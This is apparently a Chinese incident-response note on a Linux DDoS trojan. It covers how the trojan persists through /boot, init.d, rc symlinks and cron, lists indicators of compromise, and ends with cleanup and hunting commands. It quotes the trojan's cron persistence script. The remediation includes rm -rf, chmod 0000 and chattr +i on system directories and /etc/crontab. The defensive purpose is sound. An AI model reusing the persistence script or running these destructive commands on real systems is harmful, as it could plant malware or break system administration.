 该木马的持续化的方式是通过多种方式进行的。
首先，它将自己安装在/boot/目录下,命名为一个包含10个字节的字符串。
然后脚本将木马以相同的名字在/etc/init.d/ 目录下创建，
同时在/etc/rc%u.d/90%s目录建立五个符号链接，其中u%是1-5，s%是一个随机值。
这样保证每次重启系统木马可以随时启动起来。
而且，脚本还会对/etc/cron.hourly/cron.sh文件加入以下内容：

```bash
#!/bin/sh
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/usr/X11R6/bin’
for i in `cat /proc/net/dev|grep :|awk -F: {‘,27h,’print $1′,27h,’}`; do ifconfig $i up& done
cp /lib/udev/udev /lib/udev/debug
/lib/udev/debug
```

最后在crontab中插入一行代码“*/3 * * * * root /etc/cron.hourly/cron.sh”
主程序主要有三个任务，而且这三个任务是无限循环执行的：
1、下载并执行机器的配置文件；
2、将自身重装到/lib/udev/udev的文件；
3、进行洪水攻击
在此之前，我们曾截获过一个该木马的32位变种，变种木马有了一些差异。木马文件安装为/lib/libgcc4.so文件，含有辨识字符串（见下文）的唯一的文件是/var/run/udev.pid。安装的脚本文件则在 /etc/cron.hourly/udev.sh，并且rootkit特性被完全移除。所有的这些文件就是攻陷指标（IoC）。


#######
crontab -l 正常

ls /etc/rc.d/init.d/ 发现可疑10字符文件
    duxzcpslwz pjflzewwkc dlyycvhuze
    
cat /etc/rc.d/init.d/

/etc/rc%u.d/

cat /etc/crontab
cat /etc/cron.hourly/gcc4.sh 
cat /etc/cron.hourly/kill.sh
cat /etc/cron.hourly/cron.sh
cat /proc/net/dev|grep :|awk -F: {'print $1'}

/lib/libudev4.so 
/lib/libudev4.so.6
/lib/libkill.so


####################################

#删除启动脚本 awk '$7>=8 && $NF~/^K90/{print $NF}' 这里的8是当天的日期8号的意思，且控制目录不能写东西了
#awk是一个强大的文本分析工具，相对于grep的查找，sed的编辑，awk在其对数据分析并生成报告时，显得尤为强大。简单来说awk就是把文件逐行的读入，以空格为默认分隔符将每行切片，切开的部分再进行各种分析处理
chmod 0000 /lib/libudev4.so && rm -rf /lib/libudev4.so &&chmod 0000 /lib/libkill.so && rm -rf /lib/libkill.so 
&& chattr +i /lib/
ls /etc/rc.d/rc3.d/ | awk '$7>=8 && $NF~/^K90/{print $NF}' | egrep '^.{10}$'| xargs -i rm -rf /etc/rc.d/rc3.d/{}
chmod 0000 /etc/rc.d/rc3.d/ && chmod 0000 /etc/rc.d/init.d && chattr +i /etc/rc.d/rc3.d/ && chattr +i /etc/rc.d/init.d

#删除计划任务且控制计划任务不能写
#sed 删除 /etc/crontab gcc4.sh 行
#chattr +i 锁定     lsattr 显示 eg. lsattr /etc/crontab
    + ：在原有参数设定基础上，追加参数。
    - ：在原有参数设定基础上，移除参数。
    = ：更新为指定参数设定。
    i：设定文件不能被删除、改名、设定链接关系，同时不能写入或新增内容。i参数对于文件 系统的安全设置有很大帮助。
sed '/gcc4.sh/d' /etc/crontab && chmod 0000 /etc/crontab && chattr +i /etc/crontab

####################################
top
  PID USER      PR  NI  VIRT  RES  SHR S %CPU %MEM    TIME+  COMMAND                                           
  2349 root      20   0 21508  604  192 S 85.2  0.1  19:37.58 duxzcpslwz 

ps -ef 列出进程   
    ps aux | grep 2349     
     ps -ef | grep pwd

    ps aux | grep 'duxzcpslwz' |grep -v grep   
    ps -ef | grep pjflzewwk
    ps -ef | grep khugepaged khungtaskd
    find / -name khugepaged
    find / -name pjflzewwk
http://www.dwhd.org/20150908_191437.html?mType=Group
kill -pid              kill -l PID